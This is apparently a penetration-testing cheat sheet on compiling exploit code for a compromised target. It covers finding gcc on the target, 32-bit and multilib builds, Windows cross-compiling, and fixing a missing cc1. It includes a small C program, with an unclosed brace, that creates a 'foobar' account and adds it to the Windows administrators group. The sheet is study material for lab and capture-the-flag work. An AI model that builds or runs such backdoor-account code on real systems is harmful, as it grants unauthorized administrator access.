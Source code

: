 #### Compiling
gcc not found on target?  Try:
```bash - kali
find / -name gcc -type f 2>/dev/null
```
OR
==Remember you can locally compile if needed!==
64 bit compiling:
```bash - kali
gcc 15285.c -o 15285
```
i686 compiling:
```bash - kali
gcc 15285.c -o 15285 -m32
```
#### Multilib installation
```bash - kali
sudo apt-get install gcc-multilib -y
```
#### Windows cross compiling
```
sudo apt install mingw-w64
```
```bash - kali
i686-w64-mingw32-gcc exploit.c  -o exploit -lsw2_32
```
```bash - kali
gcc -m32 -Wl,--hash-style=both 9545.c -o 9545
```
Compile code to add new user to administrators:
adduser.c:
```
#include <stdlib.h>
int main ()
{
int i;
i = system ("net user foobar Pass123 /add");
i = system ("net localgroup administrators foobar /add");
```
```
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```
#### cc1 No such file or directory
`error trying to exec 'cc1': execvp: No such file or directory`
```bash - target
locate cc1
```
OR
```bash - target
find / -iname cc1 2> /dev/null
```
>
/usr/lib/gcc/i686-linux-gnu/5/cc1
Add ```/usr/lib/gcc/i686-linux-gnu/5/``` to PATH
```bash - target
export PATH="/usr/lib/gcc/i686-linux-gnu/5/:$PATH"
```

